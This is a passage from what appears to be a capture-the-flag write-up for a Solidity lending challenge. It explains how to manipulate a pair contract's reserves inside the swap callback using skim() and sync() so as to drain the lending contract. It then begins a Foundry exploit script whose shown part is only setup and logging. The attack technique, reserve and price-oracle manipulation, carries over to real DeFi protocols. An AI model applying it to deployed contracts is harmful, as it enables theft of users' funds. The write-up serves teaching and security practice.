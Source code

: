 To do this, I found out that we can perform few swaps in the Pair contract which changes the values of `reserve0` and `reserve1`. But if we do the borrow from Lending after the `swap()` the again the price will be increase. So, we need to find a way to update the reserves during the swap and borrow the amount in the same transacation. If we can observe there is a callback happening to the caller in the `swap()` function. 
>if (data.length > 0) IUniswapV2Callee(to).uniswapV2Call(msg.sender, amount0Out, amount1Out, data);

So, during this callback we can borrow from Lending contract but the reserves need a forceful update. To do this we can make use of the vulnerable `skim()` and `sync()` functions in the Pair contract.

> Why `skim()` and `sync()` are vulnerable? Cause there is no reentrancy lock on these.

```solidity
    // force balances to match reserves
    function skim(address to) external {
        address _token0 = token0; // gas savings
        address _token1 = token1; // gas savings
        _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
        _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
    }

    // force reserves to match balances
    function sync() external {
        _update(IERC20(token0).balanceOf(address(this)), IERC20(token1).balanceOf(address(this)), reserve0, reserve1);
    }
```

Thats how I manipulated the `borrowToken` price to borrowed all the tokens from Lending. Find the exploit below.

{% note(clickable=true, header="Lending.s.sol") %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Pair, Lending, ERC20} from "../src/Lending.sol";

contract LendingSolve is Script {
    Lending public lending = Lending(0x85799e7ae2964fd6D8BdC6e680dA881B8bb97ed6);
    Pair public pair = lending.pair();
    ERC20 public collateralToken = lending.collateralToken();
    ERC20 public borrowToken = lending.borrowToken();
    address player = vm.envAddress("PLAYER");

    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Lending : ", address(lending));
        console.log("Pair : ", address(pair));
        console.log("token0 (or) collateralToken  : ", pair.token0());
        console.log("token1 (or) borrowToken:  ", pair.token1());
        
        console.log("Pair balance of collatoralToken : ", collateralToken.balanceOf(address(pair)));
        console.log("Pair balance of borrowToken : ", borrowToken.balanceOf(address(pair)));
        (uint112 _reserve0, uint112 _reserve1, uint32 _blockTimestampLast) = pair.getReserves();
        console.log("Pair reserve0 : ", _reserve0);
        console.log("Pair reserve1 : ", _reserve1);

        console.log("Lending balance of collatoralToken : ", collateralToken.balanceOf(address(lending)));
        console.log("Lending balance of borrowToken : ", borrowToken.balanceOf(address(lending)));
```